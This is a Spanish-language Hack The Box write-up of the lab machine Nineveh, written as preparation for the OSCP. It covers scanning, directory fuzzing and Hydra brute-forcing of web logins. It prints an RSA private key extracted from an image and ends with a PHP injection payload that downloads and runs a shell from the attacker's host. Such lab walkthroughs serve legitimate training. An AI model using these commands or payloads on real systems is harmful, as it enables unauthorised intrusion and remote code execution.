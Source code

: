 ```yaml
---
layout: post
title:  "OSCP Path ~ Nineveh Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada NINEVEH siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Fueza Bruta, Hydra, Steganografia, LFI, phpLiteAdmin, RCE, PortKnocking, SSH, Chkrootkit, CRON, Maquinas Retiradas, Writeup, Hacking
---
```


# Lame ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.43       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
# nmap -sC -sV -p80,443 10.10.10.43 -oN target                                                                                                                                                                1 ⚙

Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 12:31 CEST
Nmap scan report for 10.10.10.43
Host is up (0.054s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```
Encontramos un dominio para meter en nuestro /etc/hosts

Lanzamos el script de `nmap http-enum` a nivel web
```bash
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /info.php: Possible information file
```
Lanzamos la herramienta `Whatweb`
```bash
# whatweb http://10.10.10.43                                                                                                                                                                                  1 ⚙
http://10.10.10.43 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43]
```
Probamos a hacer un fuzzing a nivel del dominio web encontrado 
```bash
# wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://nineveh.htb/FUZZ                                                                                  130 ⨯ 1 ⚙
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nineveh.htb/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000000835:   200        485 L    974 W      11430 Ch    "db"                                                                                                                                               
000045227:   200        1 L      3 W        49 Ch       "https://nineveh.htb/"                                                                                                                             
000095511:   403        11 L     32 W       300 Ch      "server-status"                                                                                                                                    
000095763:   200        5 L      7 W        71 Ch       "secure_notes"                                                                                                                                     
```

Chequeamos la web version http y fuzzeamos como en https a ver si encontramos lo mismo o no.
```bash
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.43/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000003008:   200        1 L      3 W        68 Ch       "department" 
```
Encontramos un login `/department/` a nivel de `http://10.10.10.43/`

En el cual tambien podemos probar a hacer fuerza bruta, y probando usuarios vemos que para el usuario Admin tenemos una respuesta diferente dandonos a entender que el usuario 
admin existe a nivel del loguin web.
```bash
# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-form-post "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -V -t 64
```


A nivel https://nineveh.htb/ encontramos que en la ruta `secure_notes` hay una imagen de extension `.php`.
Nos la descargamos y miramos a ver si encontramos algo interesante:
```bash
Sacamos informacion oculta de la imagen en .png encontrada en la ruta https://nineveh.htb/secure_notes/nineveh.png 

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY/
/CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc
/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX
/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC
/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7
/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R
amrois@nineveh.htb
```
Y encontramos al posible usuario con el que conectarnos con esta clave privada de SSH
`amrois`

Guardamos la clave ssh privada encontrada con permisos 600 y hacemos memoria, ya que en los servicios abiertos no veiamos ningun servicio ssh abierto en la maquina. 

Proseguimos por otra via enumerando el directorio o ruta `/db/`
Encontramos algo interesante en /db/
```bash
phpLiteAdmin v1.9

Warning:  rand() expects parameter 2 to be integer, float given in /var/www/ssl/db/index.php on line 114
```
Probamos a hacer fuerza bruta con `HYDRA`: 
```bash
 # hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V 
 
 [443][http-post-form] host: 10.10.10.43   login: none   "password: password123"
```
Buscamos por searchsploit:
```bash
# searchsploit phpLiteAdmin 1.9
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                                                                                                                    | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                                                                                                                     | php/webapps/39714.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Conseguimos acceder al servicio `phpLiteAdmin` 

Y leyendo la vulnerabilidad encontrada en la version 1.9.3 vemos que `creando una nueva Base de Datos` con `extension .php` podemos inyectar una nueva tabla que almacene una cadena tipo TXT en donde podemos
`meterle un codigo php malicioso`
```bash
<?php system("wget http://10.10.14.12/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>
```
